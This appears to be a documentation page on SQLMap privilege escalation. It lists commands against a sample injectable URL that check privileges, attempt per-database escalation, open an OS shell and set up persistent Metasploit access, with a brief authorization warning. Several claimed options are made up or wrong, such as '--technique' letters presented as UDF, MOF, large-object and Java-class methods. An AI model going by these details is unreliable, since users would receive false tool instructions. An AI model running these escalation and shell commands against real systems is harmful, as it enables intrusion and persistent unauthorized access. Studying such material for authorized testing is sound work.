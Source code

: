 ```yaml
---
title: Privilege Escalation
description: Learn how to perform privilege escalation using SQLMap's advanced techniques
---
```


# Privilege Escalation

SQLMap provides capabilities to check for and potentially exploit privilege escalation opportunities in various database management systems. These techniques can help identify and leverage excessive privileges during authorized security assessments.

## Checking Current Privileges

### Identifying Database User Privileges

To check the current database user's privileges:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --privileges
```

This command displays all privileges assigned to the current database user.

### Checking DBA Status

To verify if the current user has database administrator privileges:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --is-dba
```

This returns a boolean result indicating whether the current user has DBA privileges.

## Automated Privilege Escalation

SQLMap can attempt to automatically escalate privileges:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc
```

This command attempts various privilege escalation techniques based on the detected DBMS.

## DBMS-Specific Techniques

### MySQL Privilege Escalation

For MySQL, SQLMap can attempt:

1. User-Defined Function (UDF) injection:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --dbms=mysql --technique=U
```

2. MOF (Managed Object Format) exploitation on Windows systems:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --dbms=mysql --technique=M
```

### Microsoft SQL Server Privilege Escalation

For SQL Server, SQLMap can attempt:

1. `xp_cmdshell` re-enabling:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --dbms=mssql
```

2. SQL Server Agent job creation (requires specific privileges):

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --dbms=mssql --technique=Q
```

### PostgreSQL Privilege Escalation

For PostgreSQL, SQLMap can attempt:

1. Custom function creation:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --dbms=postgresql
```

2. Large object exploitation:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --dbms=postgresql --technique=L
```

### Oracle Privilege Escalation

For Oracle, SQLMap can attempt:

1. PL/SQL injection:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --dbms=oracle
```

2. Java class loading:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --dbms=oracle --technique=J
```

## Gaining System Access

After privilege escalation, you can attempt to gain system access:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --os-shell
```

This combines privilege escalation with OS shell access attempts.

## Maintaining Access

To establish persistent access after privilege escalation:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --os-pwn
```

This attempts to create a more persistent connection using Metasploit integration.

<Note title="Ethical and Legal Warning">
Privilege escalation techniques should only be used in authorized security testing scenarios. Unauthorized access to systems is illegal and unethical.
</Note>

## Troubleshooting Privilege Escalation

If privilege escalation attempts fail:

1. Verify the injection point supports stacked queries
2. Check if the database user has sufficient base privileges
3. Examine if security controls are preventing escalation
4. Try different techniques with the `--technique` parameter
5. Use verbose mode (`-v`) to get more detailed information about the attempts

Remember that privilege escalation success depends on:
- The specific DBMS version and configuration
- Existing security patches and controls
- The initial privileges of the compromised database user
- Operating system security settings
